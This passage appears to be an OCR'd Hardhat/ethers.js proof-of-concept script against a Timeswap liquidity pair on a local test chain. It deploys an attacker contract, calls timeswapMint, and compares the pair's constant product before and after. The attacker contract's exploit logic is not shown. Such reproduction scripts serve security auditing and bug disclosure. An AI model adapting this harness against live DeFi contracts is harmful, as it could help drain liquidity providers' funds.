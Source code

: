 ```
    const lpc = await LP.deploy(jtok.address, usdc.address)
    return lpc
}

async function main() {
    const [tokenDeployer, lp, attacker] = await ethers.getSigners();
    let balance = await tokenDeployer.getBalance()
    let factory = await ethers.getContractAt("TimeswapFactory", "0x5FbDB2315678afecb367f032d93F642f64180aa3", signer=tokenDeployer)
    //let [jtok, usdc] = await launchTestTokens(tokenDeployer)
    let jtok = await ethers.getContractAt("TestToken", "0x2279b7a0a67db372996a5fab50d91eaa73d2ebe6", signer=tokenDeployer)
    let usdc = await ethers.getContractAt("TestToken", "0x8a791620dd6260079bf849dc5567adc3f2fdc318", signer=tokenDeployer)
    console.log("Jtok: "+jtok.address)
    console.log("USDC: "+usdc.address)

    //Create Pair
    //let txn = await factory.createPair(jtok.address, usdc.address)
    pairAddress = await factory.getPair(jtok.address, usdc.address)
    pair = await ethers.getContractAt("TimeswapPair", pairAddress, signer=tokenDeployer)
    console.log("Pair address: "+pairAddress);

    // Deploy LP
    //let lpc = await deployLPContract(lp, jtok, usdc)
    let lpc = await ethers.getContractAt("LP", "0x948b3c65b89df0b4894abe91e6d02fe579834f8f", signer=lp)


    let jtokb = await jtok.balanceOf(lpc.address)
    let usdcb = await usdc.balanceOf(lpc.address)
    console.log("LP Jtok: "+jtokb)
    console.log("LP USDC: "+usdcb)

    //let txn2 = await lpc.timeswapMint(1641859791, 15, pairAddress)
    let res = await pair.constantProduct(1641859791);
    console.log("Post LP Constants:", res);

    let atakcontrak = await deployAttackersContract(attacker, jtok, usdc)

    jtokb = await jtok.balanceOf(atakcontrak.address)
    usdcb = await usdc.balanceOf(atakcontrak.address)
    console.log("Attacker Jtok: "+jtokb)
    console.log("Attacker USDC: "+usdcb)

    //mint some tokens
    let txn2 = await atakcontrak.timeswapMint(1641859791, 15, pairAddress)

    let res2 = await pair.constantProduct(1641859791);
    console.log("Post Attack Constants:", res2);

}
main().then(()=>process.exit(0))

```
